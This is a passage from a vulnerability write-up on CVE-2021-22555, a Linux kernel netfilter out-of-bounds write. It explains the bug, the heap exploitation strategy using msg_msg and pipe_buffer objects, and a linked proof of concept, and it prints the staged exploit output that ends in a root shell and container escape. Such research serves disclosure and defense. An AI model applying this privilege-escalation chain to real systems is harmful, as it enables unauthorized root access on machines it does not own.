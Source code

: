 # Vulnerability
When IPT_SO_SET_REPLACE or IP6T_SO_SET_REPLACE is called in compatibility mode, which requires the CAP_NET_ADMIN capability that can however be obtained in a user+network namespace, structures need to be converted from user to kernel as well as 32bit to 64bit in order to be processed by the native functions. Naturally, this is destined to be error prone. Our vulnerability is in xt_compat_target_from_user() where memset() is called with an offset target->targetsize that is not accounted for during the allocation - leading to a few bytes written out-of-bounds

# Exploitation
Our primitive is limited to writing four bytes of zero up to 0x4C bytes out-of-bounds. With such a primitive, usual targets are:

- Reference counter
    Unfortunately, I could not find any suitable objects with a reference counter in the first 0x4C bytes.
- Free list pointer
    CVE-2016-6187: Exploiting Linux kernel heap off-by-one is a good example on how to exploit the free list pointer. However, this was already 5 years ago, and meanwhile, kernels have the CONFIG_SLAB_FREELIST_HARDENED option enabled which among other things protects free list pointers.
- Pointer in a struct
    This is the most promising approach, however four bytes of zero is too much to write. For example, a pointer 0xffff91a49cb7f000 could only be turned to 0xffff91a400000000 or 0x9cb7f000, where both of them would likely be invalid pointers. On the other hand, if we used the primitive to write at the very beginning of the adjacent block, we could write less bytes, e.g. 2 bytes, and for example turn a pointer from 0xffff91a49cb7f000 to 0xffff91a49cb70000.
Playing around with some victim objects, I noticed that I could never reliably allocate them around struct xt_table_info on kernel 5.4. I realized that it had something to do with the GFP_KERNEL_ACCOUNT flag, as other objects allocated with GFP_KERNEL_ACCOUNT did not have this issue. Jann Horn confirmed that before 5.9, separate slabs were used to implement accounting. Therefore, every heap primitive we use in the exploit chain should also use GFP_KERNEL_ACCOUNT.

The syscall msgsnd() is a well known primitive for heap spraying (which uses GFP_KERNEL_ACCOUNT) and has been utilized for multiple public exploits already. Though, its structure msg_msg has surprisingly never been abused. In this write-up, we will demonstrate how this data-structure can be abused to gain a use-after-free primitive which in turn can be used to leak addresses and fake other objects. Coincidentally, in parallel to my research in March 2021, Alexander Popov also explored the very same structure in Four Bytes of Power: exploiting CVE-2021-26708 in the Linux kernel.

# Proof-Of-Concept
The Proof-Of-Concept is available at https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555.

```
theflow@theflow:~$ gcc -m32 -static -o exploit exploit.c
theflow@theflow:~$ ./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: ffc
[+] real_idx: fc4

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] kheap_addr: ffff91a49cb7f000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
[+] kheap_addr: ffff91a49c7a0000

[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000

[+] STAGE 4: Kernel code execution
[*] Spraying fake pipe_buffer objects...
[*] Releasing pipe_buffer objects...
[*] Checking for root...
[+] Root privileges gained.

[+] STAGE 5: Post-exploitation
[*] Escaping container...
[*] Cleaning up...
[*] Popping root shell...
root@theflow:/# id
uid=0(root) gid=0(root) groups=0(root)
```
